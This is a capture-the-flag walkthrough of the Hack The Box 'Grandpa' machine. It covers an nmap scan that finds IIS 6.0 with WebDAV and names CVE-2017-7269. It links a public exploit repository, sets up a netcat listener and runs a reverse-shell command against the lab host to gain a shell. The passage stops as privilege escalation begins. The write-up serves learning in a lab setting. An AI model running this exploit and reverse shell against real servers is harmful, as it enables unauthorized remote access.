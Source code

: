 # Box: Grandpa
# Level: Easy
# OS: Windows
<hr>
Lets get started

# Recon

## Portscanning

command:```nmap -A -v -T4 -p- 10.129.95.233```

```
Nmap scan report for 10.129.95.233
Host is up (0.22s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Mon, 13 Feb 2023 16:46:19 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   244.91 ms 10.10.14.43
2   245.07 ms 10.129.95.233

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 17:46:24 2023 -- 1 IP address (1 host up) scanned in 250.56 seconds
```
From our scan we can see we have just 1 open port, this means our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb7731fd-6a41-48cb-986b-b26f248f919e)

Well, there was nothing interesting in the page source actually.

Going back to the nmap scan, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccc2038-57f4-4ae5-ad11-4d48d571a03b)

Alright, so I think there's an exploit for that guy I highlighted

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

I was right hehehe. Well since we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

First, lets setup our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c8d39bf3-5ab5-4ca3-ab3a-6e11d401c3af)

Now, lets run the exploit script

command:```python2 iis6\ reverse\ shell 10.129.74.174 80 10.10.14.122 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa7a90cc-f39f-48ac-9f2d-29d7ea98a203)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0cb72701-5ce3-4176-a704-f6bcdfab17a6)

We got a shell as ```nt authority\network service```, this means we  have to escalate our privileges



# Privilege Escalation

Running the ```systeminfo``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2cb1c3ce-0253-4775-a317-b811473f08ad)

That's an outdated kernel I think, checking for available exploits























